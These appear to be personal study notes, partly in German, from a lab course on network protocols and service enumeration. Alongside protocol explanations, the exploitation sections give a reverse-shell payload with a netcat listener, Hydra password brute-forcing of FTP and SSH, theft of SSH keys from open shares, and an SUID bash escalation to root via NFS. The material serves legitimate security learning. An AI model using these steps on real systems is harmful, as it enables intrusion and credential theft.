

#Network Fundamentals

##OSI / TCP/IP

##TCP

3-Way Handshake

##Wireshark

There are 5 pieces of information here:

- Frame 1 -- this is showing details from the physical layer of the OSI model (Network Interface layer of the TCP/IP model): the size of the packet received in terms of bytes)
- Ethernet II -- this is showing details from the Data Link layer of the OSI model (Network Interface layer of the TCP/IP model): the transmission medium (in this case an Ethernet cable), as well as the source and destination MAC addresses of the request.
- Internet Protocol Version 4 -- this is showing details from the Network layer of the OSI model (Internet Layer of the TCP/IP model): the source and destination IP addresses of the request.
- Transmission Control Protocol -- this is showing details from the Transport layer of the OSI and TCP/IP models: in this case it's telling us that the protocol was TCP, along with a few other things that we're not covering here.
- Hypertext Transfer Protocol -- this is showing details from the Application layer of the OSI and TCP/IP models: specifically, this is a HTTP GET request, which is requesting a web page from a remote server.

##Ping

Ping works using the ICMP protocol

    ping <target>

    man ping

##Traceroute

Traceroute allows you to see each of these connections -- it allows you to see every intermediate step between your computer and the resource that you requested

By default, the Windows traceroute utility (tracert) operates using the same ICMP protocol that ping utilises, and the Unix equivalent operates over UDP. 

    traceroute <destination>

    man traceroute

##WHOIS

https://www.whois.com/whois/

    whois <domain>
    
    man whois

##Dig

Dig allows us to manually query recursive DNS servers of our choice for information about domains:

    dig <domain> @<dns-server-ip>

    man dig

This is a lot of information. We're currently most interested in the ANSWER section for this room; however, taking the time to learn what the rest of this means is a very good idea. In summary, that information is telling us that we sent it one query and successfully (i.e. No Errors) received one full answer -- which, as expected, contains the IP address for the domain name that we queried.

Another interesting piece of information that dig gives us is the TTL (Time To Live) of the queried DNS record. As mentioned previously, when your computer queries a domain name, it stores the results in its local cache. The TTL of the record tells your computer when to stop considering the record as being valid -- i.e. when it should request the data again, rather than relying on the cached copy.

#Network Services

###SMB

####Understanding

The SMB protocol is known as a response-request protocol, meaning that it transmits multiple messages between the client and server to establish a connection. Clients connect to servers using TCP/IP (actually NetBIOS over TCP/IP as specified in RFC1001 and RFC1002), NetBEUI or IPX/SPX.

####Enumeration

Port Scanning

The first step of enumeration is to conduct a port scan, to find out as much information as you can about the services, applications, structure and operating system of the target machine. You can go as in depth as you like on this, however I suggest using nmap with the -A and -p- tags.

-A : Enables OS Detection, Version Detection, Script Scanning and Traceroute all in one

-p- : Enables scanning across all ports, not just the top 1000

    nmap -A -T4 -p- <IP>

    enum4linux -A <IP>

####Exploiting

https://www.samba.org/samba/docs/current/man-html/smbclient.1.html

    "smbclient //[IP]/[SHARE]"
    
    Followed by the tags:
    
    -U [name] : to specify the user
    
    -p [port] : to specify the port

Login with Anonymous, without password:

    smbclient //<IP>/<share> -U <user> -p <port>

Explore:

    ls

Download File:

    get "Working From Home Information.txt" WFHI.txt

    get id_rsa <output name>
    
    get id_rsa.pub <output name>

    chmod 600 <output name private key>

    ssh -i <output name privsate key> cactus@<IP>

###Telnet

####Understanding

The telnet client will establish a connection with the server. The client will then become a virtual terminal- allowing you to interact with the remote host.

    telnet [ip] [port]

####Enumeration

Scan the machine with nmap and the tag -A and -p-.

Tag

-A : Enables OS Detection, Version Detection, Script Scanning and Traceroute all in one

-p- : Enables scanning across all ports, not just the top 1000

    nmap -A -p- -T4 <IP>

####Exploiting

So, from our enumeration stage, we know:

- There is a poorly hidden telnet service running on this machine

- The service itself is marked "backdoor"

- We have possible username of "Skidy" implicated

Using this information, let's try accessing this telnet port, and using that as a foothold to get a full reverse shell on the machine!

icmp listener:

    sudo tcpdump ip proto \\icmp -i tun0

Ping aus Telnet

    .RUN ping [local tun0 ip] -c 1

Reverse Shell Payload senden:

    msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R

-p = payload

lhost = our local host IP address (this is your machine's IP address)

lport = the port to listen on (this is the port on your machine)

R = export the payload in raw format

Netcat listener:

    nc -lvp 4444

Run Payload in Telnet:

    .RUN mkfifo /..... <Output of msfvenom>

###FTP

####Understanding

https://www.ietf.org/rfc/rfc959.txt

A typical FTP session operates using two channels:

- a command (sometimes called the control) channel
- a data channel.

Active vs Passive

The FTP server may support either Active or Passive connections, or both. 

- In an Active FTP connection, the client opens a port and listens. The server is required to actively connect to it. 
- In a Passive FTP connection, the server opens a port and listens (passively) and the client connects to it. 

####Enumeration

Scan the machine with nmap and the tag -A and -p-.

Tag

-A : Enables OS Detection, Version Detection, Script Scanning and Traceroute all in one

-p- : Enables scanning across all ports, not just the top 1000

    nmap -A -p- -T4 <IP>

####Exploiting

So, from our enumeration stage, we know:

    - There is an FTP server running on this machine

    - We have a possible username

Using this information, let's try and bruteforce the password of the FTP Server.

#####Hydra

Hydra is a very fast online password cracking tool, which can perform rapid dictionary attacks against more than 50 Protocols, including Telnet, RDP, SSH, FTP, HTTP, HTTPS, SMB, several databases and much more. Hydra comes by default on both Parrot and Kali, however if you need it, you can find the GitHub here.

The syntax for the command we're going to use to find the passwords is this:

    hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp

Let's break it down:

|SECTION |FUNCTION|
|---|---|
|hydra                      |Runs the hydra tool|
|-t 4                       |Number of parallel connections per target|
|-l [user]                  |Points to the user who's account you're trying to compromise|
|-P [path to dictionary]    |Points to the file containing the list of possible passwords|
|-vV                        |Sets verbose mode to very verbose, shows the login+pass combination for each attempt|
|[machine IP]               |The IP address of the target machine|
|ftp / protocol             |Sets the protocol|

###NFS

####Understanding

https://docs.oracle.com/cd/E19683-01/816-4882/6mb2ipq7l/index.html

First, the client will request to mount a directory from a remote host on a local directory just the same way it can mount a physical device. The mount service will then act to connect to the relevant mount daemon using RPC.

The server checks if the user has permission to mount whatever directory has been requested. It will then return a file handle which uniquely identifies each file and directory that is on the server.

If someone wants to access a file using NFS, an RPC call is placed to NFSD (the NFS daemon) on the server. This call takes parameters such as:

- The file handle
- The name of the file to be accessed
- The user's, user ID
- The user's group ID

These are used in determining access rights to the specified file. This is what controls user permissions, I.E read and write of files.

####Enumeration

Scan the machine with nmap and the tag -A and -p-.

Tag

-A : Enables OS Detection, Version Detection, Script Scanning and Traceroute all in one

-p- : Enables scanning across all ports, not just the top 1000

    nmap -A -p- -T4 <IP>

Mounting NFS shares

Your client’s system needs a directory where all the content shared by
the host server in the export folder can be accessed. You can create
this folder anywhere on your system. Once you've created this mount point, you can use the "mount" command to connect the NFS share to the mount point on your machine. Like so:

    sudo mount -t nfs IP:share /tmp/mount/ -nolock

Let's break this down

|Tag	|Function|
|---|---|
|sudo	    |Run as root|
|mount	    |Execute the mount command|
|-t nfs	    |Type of device to mount, then specifying that it's NFS|
|IP:share	|The IP Address of the NFS server, and the name of the share we wish to mount|
|-nolock	|Specifies not to use NLM locking|

Show NFS Shares:

    /usr/sbin/showmount -e [IP]

Mount share to local machine:

    mkdir /tmp/mount

    sudo mount -t nfs <IP>:<share> /tmp/mount/ -nolock

Move to Mount:

    cd /tmp/mount

    cd cappucino

Search for Information:

    ls -a
    
    cd .ssh
    
    cp id_rsa /home/kali
    
    cp id_rsa.pub /home/kali
    
    chmod 600 id_rsa
    
    ssh -i id_rsa cappucino@<IP>

####Exploiting

Mapped Out Pathway:

If this is still hard to follow, here's a step by step of the actions we're taking, and how they all tie together to allow us to gain a root shell:

    NFS Access ->

        Gain Low Privilege Shell ->

            Upload Bash Executable to the NFS share ->

                Set SUID Permissions Through NFS Due To Misconfigured Root Squash ->

                    Login through SSH ->

                        Execute SUID Bit Bash Executable ->

                            ROOT ACCESS

Download bash shell:

https://github.com/TheRealPoloMints/Blog/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash

cp to home of ssh User ind mount

bash in die Gruppe root setzen:

    sudo chown root bash

rechte setzen:

    sudo chmod +s bash

    sudo chmod +x bash

auf Zeilrechner bash ausführen:

    ./bash -p

Shell sollte als root gestarted sein

###SMTP

####Understanding

The SMTP server performs three basic functions:

- It verifies who is sending emails through the SMTP server.
- It sends the outgoing mail
- If the outgoing mail can't be delivered it sends the message back to the sender

1. The mail user agent, which is either your email client or an external program. connects to the SMTP server of your domain, e.g. smtp.google.com. This initiates the SMTP handshake. This connection works over the SMTP port- which is usually 25. Once these connections have been made and validated, the SMTP session starts.

2. The process of sending mail can now begin. The client first submits the sender, and recipient's email address- the body of the email and any attachments, to the server. 

3. The SMTP server then checks whether the domain name of the recipient and the sender is the same.

4. The SMTP server of the sender will make a connection to the recipient's SMTP server before relaying the email. If the recipient's server can't be accessed, or is not available- the Email gets put into an SMTP queue.

5. Then, the recipient's SMTP server will verify the incoming email. It does this by checking if the domain and user name have been recognised. The server will then forward the email to the POP or IMAP server, as shown in the diagram above.

6. The E-Mail will then show up in the recipient's inbox.

https://www.afternerd.com/blog/smtp/

####Enumeration

Find Expoit on Metaspoit:

    msfconsole
    
    search smtp_version
    
    use <exploit nr>

    options
    
    set rhost <IP_target>

####Exploiting

Username:

administrator

Ports:

smtp

ssh

The syntax for the command we're going to use to find the passwords is this:

    hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV 10.10.192.199 ssh

Let's break it down:

|SECTION	|FUNCTION|
|---|---|
|hydra	                    |Runs the hydra tool|
|-t 16                      |Number of parallel connections per target|
|-l [user]	                |Points to the user who's account you're trying to compromise|
|-P [path to dictionary]	|Points to the file containing the list of possible passwords|
|-vV                        |Sets verbose mode to very verbose, shows the login+pass combination for each attempt|
|[machine IP]	            |The IP address of the target machine|
|ssh / protocol	            |Sets the protocol|

Okay, at the end of our Enumeration section we have a few vital pieces of information:

1. A user account name

2. The type of SMTP server and Operating System running.

Password crack with Hydra:

    hydra -t 16 -l administrator -P /<Path>/rockyou.txt -vV <IP> ssh

###MySQL

####Understanding

The server handles all database instructions like creating editing and accessing data. It takes, and manages these requests and communicates using the MySQL protocol. This whole process can be broken down into these stages:

- MySQL creates a database for storing and manipulating data, defining the relationship of each table.
- Clients make requests by making specific statements in SQL.
- The server will respond to the client with whatever information has been requested 

####Enumeration

    mysql -h [IP] -u [username] -p

show databases

####Exploiting

Let's take a sanity check before moving on to try and exploit the database fully, and gain more sensitive information than just database names. We know:

1. MySQL server credentials

root:password

2. The version of MySQL running

5.7.29-0ubuntu0.18.04.1

3. The number of Databases, and their names.

show databases

mysql_schemadump

mysql_hashdump

Crack Password with John the Ripper:

John hash.txt

##More Readings:

https://web.mit.edu/rhel-doc/4/RH-DOCS/rhel-sg-en-4/ch-exploits.html

https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/

